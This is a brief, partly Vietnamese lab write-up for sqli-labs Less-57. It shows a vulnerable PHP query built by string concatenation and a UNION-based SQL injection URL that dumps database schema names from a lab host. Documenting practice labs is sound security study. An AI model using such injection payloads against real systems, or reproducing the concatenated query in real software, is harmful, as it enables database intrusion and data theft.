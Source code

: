 - code 

```
$id= '"'.$id.'"';
$sql="SELECT * FROM security.users WHERE id=$id LIMIT 0,1";
```

- Làm bình thường với `"`

```
http://10.10.10.171/sqli-labs/Less-57/?id=0" union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```
